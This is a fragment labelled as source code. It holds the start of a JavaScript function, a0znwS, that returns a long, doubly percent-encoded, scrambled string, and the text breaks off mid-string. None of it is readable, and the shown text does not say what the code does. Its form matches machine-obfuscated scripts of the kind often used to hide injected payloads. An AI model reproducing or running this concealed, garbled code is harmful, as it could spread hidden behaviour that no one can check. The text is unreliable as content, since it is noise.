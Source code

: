 a0znwS(){return"wS%250Ei;%253E'SK51%251D$SL.5%23$C%255D%253E1%2515$SY%2525)%2525%3FVW%253E+4%2522AQ%3F+/pVZb;63%255C%255C.%25088/%40L5e%2517%2520GU57/rT%255Eh;3p%250CZ.74%2520QQ%253E%2522%250E%2522ZU%2520;2-%255C%255D%253E1%2509%3FBP11q2VW%2522%2520q6ZM%253C!q8ZMp)8*P%2507.645f%255B%3F74%3FfP9%23%2525%2513%255C_81/%2511gy%2513%2511%2518%2502pF%253C%252075K%250Fe%257Dc%3FVW=5=$A%255D.%251A2.%255BV5%26%2525(ZV.*%3F,ZM%23%25205.BV.(01KP%3F2q,TV)e%253C(%255BM$%2520%2522aQWp%253C%253E4%2515O1+%2525aAWp%2303XF%251C$$/VP57/%2525%255CN.6%23%2522KJ5$5(%255B_%257D%26%253E,EF%231(-PF1+%25226PJp$%2525-PY%231qr%2515I%2525%2520%25225%255CW%253E6q%23P%255E%3F74aFS95!(%255B_p*%23a%40%2518',=-%2515_51q%23TV%253E%25205%3FVW%253E+4%2522AQ%3F+8%2525K%255D%26%2520%3F5KP%3F*:%3FDM57(%2512PT5%26%2525.GF2*58K%255C9%252285jU119%3F%2500%250Bes/%2525%255CK%2520)08K%25044,'a%255C%255Cmg%251D%2520%40V3-43%2517%25183)02F%2505r%250904%255B%255B8%2520%23c%2515K$%253C=$%2508%251A%3F0%2525-%255CV5%257Fq%26GY)e%2522.YQ4ec1M%2503=,%3Fl%255D%255D9%252295%250F%2518bpa1M%2503$70/F%255E%3F7%253C%257B%25152$70/FT114%2519%251D%2508%2520=xaAJ1+%2522-TL5%251Cyl%2506%250A%2520=xzZH1%2685L%2502pu%257Fy%2500%25036*%3F5%2518%255E1(8-L%2502p60/F%2515%23%2520%23(S%2503',55%255D%2502ptdqE%40k-4(RP$%257Fqp%2502%250D%2520=j%23T%255B;%2522%23.%40V4%257FqKWT1%26:zEW%23,%2525(ZVje0%23FW%253C0%2525$%250EZ%3F75$G%2515%2522$5(%40Kjed1M%25034,%25221YY)%257Fq%26GQ4~!-T%255B5h85PU%23%257Fq%2522PV$%2520%23zVW%253C*%23%257B%2515O8,%2525$%250E%255E%3F+%2525lFQ*%2520kaYY%2522%252243%250EL%3F5ka%2504%250Da5)zY%255D61ka%2507%2509%2520=jaEW%23,%2525(ZVj$32ZT%252514z%2515B%257D,%3F%2525P%40jehx%250C%2501i~s%257F%3F%25043%2520%3F5PJny9p%2515%255B%253C$%25222%2508%251A2*%25255ZU%2504,%2525-P%251Ap%257Bmn%255D%2509ny~%2522PV$%2520%23%257F%3F%25049(6a%255C%255Cmg%3F4YT9%26%253E/%2517%2518%2372%257C%2517%255C110%257B%255CU1%25224nEV7~3%2520F%255Dfq%257D(cz%251F%2517%26q~%257F7*%2510%2500ty%251E%2516%2504)pm7%2504%2510%2500w_%2511%2504%2510%2500l%257B%2511%2508%2510%2500t%257C%250842r~y%2511%2504%2510+cz%251D%2513%2514%2517%257D%255B%25152d%250EaSf%250A;1Q%2560%2506t%251E%2515%255E%250Cd%250A%2515%26%2503w:*g%250E_Wd%250A%2515)yk%256012%2519s%403%251D%25176%2503w:*g%250E_H%2500%2511ay%2500w%2504.f%250EOL2%2512%25605To%253C55%2519c%25091%2512=.%2503w:52%2519sOd%250A%2515%26%2501w%2514-%2518%2512pP3%251D%25179V%2560%2516=2%2519s%402%2512%25605V%2560%2516=2%2519sOf%250A;1V%2560%2516=3%2516%2504Kg%250A+2%250Dh%25142e%250Eq_c%250B+%2522%2506v*!2%2519s%404%251D%2507q%250Dh%25142i%2511q%404%251D%2507q%2500w%2504.i%2511qA'4h%251B%255Ey%2511%2504%2510%250D%257Dj%2503%2511=%250Ctn%264=%2503vH%2502%2514+%2518yo%2525j;%250EMp$,%2514%2500l%250A%2560%233%250A%2500J=%250D!%2515%2500%250E%2517(e%26El%251Cu%2506%2515sK%2560=(+%255Bo=%257C0%26Fn%25006%2510%2500t%257Bf%2516%2504%2513wn%2513/%25013Qt%250A%2500:%250CB%257F%2519'9*pi%251564y%2502%250B%250632n%251Ema%2522:uo%257C:7%2505x%251Azg=%3Fy%255Cy%251D%253Cd%2506FAit%2514%2507Rn%2506%2522%2560%2516f%255E%2503*%2506%23zqc%2513%25023%251AK%2525%250E%264m%250Fa74vQlf%2522%251D%26%251E%2509%251E!%23%2505Go%2515%2522%2505w%40%257B%2508%251D$8Ooi%2509%2514%250Dp%250F%2517%2504%2510%2511V%2513%2519%2506%2510qSl4!%2506%2511%255Eo%25157+6wh%251903%2502g%257B%2520/%2506%2507D_4%2500%2508%2516%250Caa%257C%251B%2508L%2517%25117:%2500%257Fl%257F27%2514%257Cn%2500%25103t%257D%250A%2501/fj%257C%2501h%2500%2512%2517yJ%2519%2512d%2505er%257F%2503~*%2504K7%2504%2516%250CM%257F*'z%2511tZ%2515%250C%253C4v%2509e%250B%2522%2509RW%257F,7%2507%250Da%25252%251F%2505av%251B%2510%2525%2513E%2560c%2504%2510%2500ty%2511%2516%2504%2517zj%251Bp%2512%2518%257Cqmgq%2522YY%236lcV%255D%253E143%2517%2506Zeqa%2515%25048tq%2522YY%236lcAQ$)4c%250B%25043%2520%3F5PJn74%2520Y%2504%257F%264/A%255D%2522%257Bmn%255D%2509nOqa%2515%2518l%264/A%255D%2522%257Bm)%2504%25183)02F%2505r'%253E5AW=%251185Y%255Dreop%251B%25082y~)%2504%2506lj2$%255BL57oK%2509K$%253C=$%2515Q4xs%23GM8goK%3F%2516$,%2525-P%2518+Oqa%2515%25186*%3F5%2518%255E1(8-L%2502pb%25103%255CY%253Cb%257DaFY%253E6%257C2PJ9%23jK%2515%2518pe7.%255BL%257D68;P%2502pva1M%2503Zeqa%2515%255B%3F)%253E3%250F%2518'-85P2-O%255BoWW$1%253E,aQ$)4aN2peqaSW%253E1%257C'TU9)(%257B%2515%251F%251178%2520Y%251F%257Ce%2522%2520%255BK%257D643%255C%255EkOqa%2515%25186*%3F5%2518K9%3F4%257B%2515%2509e5)z%3F%2518peq,TJ7,%3FlAW%2520%257Fql%2505%2516g74,%250E2-O%255BoWM$1%253E/%2515CZeq'ZV$h7%2520XQ%253C%253Cka%2512y%2522,0-%2512%2514p60/F%2515%23%2520%23(S%2503Zeq%23ZJ4%2520%23%257B%2515V%3F+4z%3F%2518p%26%253E-ZJje%26)%255CL5~%255Ba%2515L5=%2525lTT9%2522%3F%257B%2515%255B5+%2525$G%2503Zeq'ZV$h%2522(O%255Dje%2560wE%40kOqaVM%25226%253E3%250F%2518%2520*8/A%255D%2522~%255Ba%2515%2515'%25203*%255CL%257D1%23%2520%255BK918.%255B%251540%23%2520AQ%3F+ka%2505%2516d6jK%2515%2518$70/FQ$,%253E/%2518%255C%2525705%255CW%253E%257Fqq%251B%250C%23~%255Ba%2515O9!%2525)%250F%2518gutz%2515%2517ze%2510%2525_M%2314%2525%2515O9!%2525)%2515%2512%257FOqaXY%2522%25228/%2518L%3F5ka%2518%2509e5)z%2515%2517ze%2510%2525_M%2314%2525%2515U176(%255B%2518$*!a%251F%2517Zeq6%255DQ$%2520%257C2EY3%2520ka%255BW'701%250E%2518%257Foq%2511G%255D%26%2520%3F5%2515T9+4aWJ5$:2%2515%2512%257FOqaVW%253C*%23%257B%2515O8,%2525$%250E%2518Zeq%23T%255B;%2522%23.%40V4h2.YW%2522%257Fq%23YY3.jKH2~'$5AW%253E%257F9.C%255D%2522e*K%2515%25183*=.G%2502p'=%2520VSkOqaWY3.63ZM%253E!%257C%2522ZT%3F7kaRJ5%253C%255B%253C%3F%251620%25255ZVj$25%255CN5e*K%2515%25182$2*RJ%3F0%3F%2525%2518%255B%3F)%253E3%250F%25182)0%2522%255E%2503Z8%255BoV%255D%253E143%2515CZeqa%2515%255C96!-TAje3-Z%255B;~%255Ba%2515%2518p(03RQ%253Eh=$SLje04AWkOqa%2515%2518=$%23%26%255CV%257D78%26%255DLje04AWkO,K%2509%2517%231(-P%2506Zeqa%2515%250420%25255ZVp,5%257C%2517K;,!c%2515%255B%253C$%25222%2508%251A20%25255ZVr%257B%2502*%255CHp%250942FW%253Ey~%23%40L$*%3F%257F%3F%2518peq%257DWM$1%253E/%2515Q4xs'TJ='%2525/%2517%25183)02F%2505r'$5AW%253Egq2AA%253C%2520lcXY%2522%25228/%2518T5%23%